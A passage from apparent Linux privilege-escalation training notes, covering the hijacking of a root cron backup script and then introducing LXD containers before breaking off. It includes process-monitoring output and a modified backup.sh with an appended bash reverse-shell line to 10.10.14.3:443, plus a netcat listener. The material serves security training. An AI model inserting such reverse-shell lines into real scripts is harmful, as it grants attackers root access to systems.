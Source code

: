     2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
    2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
    2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
    2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
    2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive

We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to `ALWAYS` take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.

    cat /dmz-backups/backup.sh 
    
    #!/bin/bash
     SRCDIR="/var/www/html"
     DESTDIR="/dmz-backups/"
     FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
     tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a [Bash one-liner reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

    #!/bin/bash
    SRCDIR="/var/www/html"
    DESTDIR="/dmz-backups/"
    FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
    tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
    
    bash -i >& /dev/tcp/10.10.14.3/443 0>&1

We modify the script, stand up a local netcat `listener`, and wait. Sure enough, within three minutes, we have a root shell!

    nc -lnvp 443


<a id="org66fcd6b"></a>

## LXD

`Containers`
Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

`Linux Container`
Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them.
The ease of use of `LXC` is their most significant advantage compared to classic virtualization techniques.

`Linux Demon`
Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. We can find this out with the following command:
